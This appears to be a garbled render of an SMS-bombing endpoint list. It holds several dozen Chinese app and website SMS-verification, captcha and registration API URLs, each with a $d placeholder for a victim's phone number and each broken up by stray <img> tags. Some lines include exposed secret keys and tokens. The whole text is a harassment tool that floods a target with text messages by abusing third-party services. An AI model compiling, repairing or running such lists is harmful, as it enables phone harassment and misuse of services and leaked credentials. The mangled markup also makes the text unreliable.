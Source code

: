 <img src='http://api.hanju.koudaibaobao.com/api/user/verifyMobile?country=%2B86&mobile=$d' alt=''/>
<img src='https://api-dcdn.jiayouxueba.cn/api/v3/sms/vcode?countryId=685&mobile=$d' alt=''/>&sign=d012c7dbfeba6014a28b9093156cd52d&ts=1565428712975901&type=1
<img src='http://api.hanju.koudaibaobao.com/api/user/verifyMobile?_ts=1564136775711&country=%2B86&mobile=$d' alt=''/>
<img src='http://api.hsj.huanci.net/index.php/api/user/isPhoneRegister?appVer=1.1.0&cur_user_id=-1&device=iPhone%206S&device_brand=Apple&device_model=iPhone&os_version=12.4&phone=$d' alt=''/>&platform=iOS&token=&userId=-1&version_code=110
<img src='https://class.hujiang.com/classtopic/handler/phonecaptcha?areaID=87051&phoneNumber=$d' alt=''/>&IsAutoReg=true&TopicID=94149&IsPreview=false&__r=1542430774915
<img src='http://api.huatu.com/lumenapi/v4/common/message/send_by_java?callback=callbackSendCode&mobile=$d' alt=''/>&_=1547130695671
<img src='http://api.mianmianyue.com/basis/sendCheckCode?mobile=$d' alt=''/>&checkSign=Gec1LPgwdA4OOyqQLAS5UkZnmck2eRyJxJP6rvTU7K8%253D
<img src='http://api.qingmang.me/v1/account.sendVerification?code=1566478386.8872059778&phone=%2B86$d' alt=''/>&token=YzllOTI2NGEtYzRkYi0xMWU5LTgxY2ItMDAxNjNlMDM2OTg5&platform=life_ios&udid=966d9749eb41b1f81489cabc0bc05c35a1f97032&v=2.6.12&vc=6
<img src='http://api.v2.msparis.com/common/mobile?channel=App%20Store-vest&clientId=msparis-ios-4.2.4-vest&mobile=$d' alt=''/>&platform=ios-vest&rent_mode=2
<img src='http://api.wangxiao.cn/app/user.ashx?mobile=$d' alt=''/>&t=mobilelogincode
<img src='http://api.xingchentd.com/logic-user/user:users/mobile/?mobile=$d' alt=''/>&projection=withRoles
<img src='http://api.xtgyl.cn/index.php/api_v1/api.app.login/sendCaptcha?mobile=$d' alt=''/>
<img src='http://api.yuyin-tv.com/v1/account/verifycode/register?phone=$d' alt=''/>
<img src='http://app.jiayouxueba.cn/api/v3/sms/getcode?mobile=$d' alt=''/>
<img src='http://app.quanlaoda.com/app.php?&m=code&a=send_login_code&phone=$d' alt=''/>
<img src='http://app.zangcun.com/registerCode?mobile=$d' alt=''/>
<img src='http://appsever.caissa.com.cn/api/token/user/verifyAndgetCaptcha?data=%7B%22phone%22%3A%22$d' alt=''/>%22%2C%22type%22%3A%223%22%2C%22userId%22%3A%22%22%7D&head=%7B%22account%22%3A%22android01%22%2C%22channel%22%3A%22C0001%22%2C%22channelSecond%22%3A%22CS0001%22%2C%22pa
<img src='http://bizapi.pezy.cn/qknode/sms/reqSmsCode?df=android&publishid=1003&deviceId=8812baafc8de4fe4&vt=5&screen=720x1280&deviceid=&os=android&proid=qknode&av=MMB29M&appVersion=1.6.1&imei=&ov=6.0.1&osVersion=6.0.1&deviceVersion=Redmi%204A&osLevel=23&phone=$d' alt=''/>&token=
<img src='http://ccyagu.gswanzhong.com/Apicloud/User/sendCaptcha?Mobile=$d' alt=''/>
<img src='http://dapi.mting.info/yyting/usercenter/getVerifyCode.action?phoneNum=$d' alt=''/>&type=0&token=&imei=&nwt=1&q=27&sc=
<img src='http://gw.dianzhenkeji.com/userc/sms/$d' alt=''/>/2?tenantId=dxtv
<img src='http://hbrbapi.hubeidaily.net/amc/client/getAuthCode?mobilephone=$d' alt=''/>&nodeCode=ecdc5307-888e-4322-8817-f04bd81a7e82
<img src='http://id.ifeng.com/api/simplesendmsg?mobile=$d' alt=''/>&comefrom=7&auth=&msgtype=0
<img src='http://m.aihuaju.com/wap/index.php?act=security&op=send_reg_mobile&mobile=$d' alt=''/>
<img src='http://m.api.cetv.cn/v2/member?app_version=2.1.0&sign=f631db0bcb5fabc1b76679d9480e4f73&device_id=74:4A:A4:A6:B0:63&time=1561078945566&mobile=$d' alt=''/>&system_name=android&ip=192.168.43.217&siteid=10001&clientid=1&modules=needcaptcha:1&type=android
<img src='http://m.renwo.com/Ajax/json.ashx?at=sendregsmsvcode&m=1&mobile=$d' alt=''/>&_=1551173567899
<img src='http://mobile.health.pingan.com/ehis-hl/ajax/sendOTP.action?smscc=ehiswxonly&phone=$d' alt=''/>
<img src='http://my.baihe.com/Getinterregist/captchaAndRegCheck?account=$d' alt=''/>&type=1
<img src='http://photograph.yuanlikj.cn/send/Send?appName=%E6%88%AA%E5%9B%BE%E7%A7%80-%E5%AF%B9%E8%AF%9D%E7%94%9F%E6%88%90%E5%99%A8&TELMobile=$d' alt=''/>
<img src='http://shxd.jienihua100.com/api/user/getcode?mobile=$d' alt=''/>&regcode=AC04B8AE-5A73-41D1-8694-3EFD04FEB059
<img src='http://slb-sport.vesal.cn/vesal-sport-prod/v1/app/member/getCode?tellAndEmail=$d' alt=''/>
<img src='http://sms.bechtech.cn/Api/send/data/json?accesskey=1730&secretkey=3f198068c6b5c1036f9b38ae0690cc244695a247&mobile=$d' alt=''/>&content=%E6%82%A8%E7%9A%84%E6%89%8B%E6%9C%BA%E9%AA%8C%E8%AF%81%E7%A0%81%E4%B8%BA%EF%BC%9A3973+%EF%BC%8C%E8%AF%A5%E9%AA%8C%E8%AF%81%E7%A0%8110%
<img src='http://srmemberapp.srgow.com/sys/captcha/$d' alt=''/>
<img src='http://tel.kuaishang.cn/ajax.php?act=sendmsg&author=%E9%BD%90%E6%99%A8&fromurls=
<img src='http%3A%2F%2Fwww.mianfeidianhua.net%2Fhsnzy.html&content=%E6%83%B3%E5%92%A8%E8%AF%A2%E3%80%82&did=382&uid=2010131726&phone=$d' alt=''/>&_=1551173567919
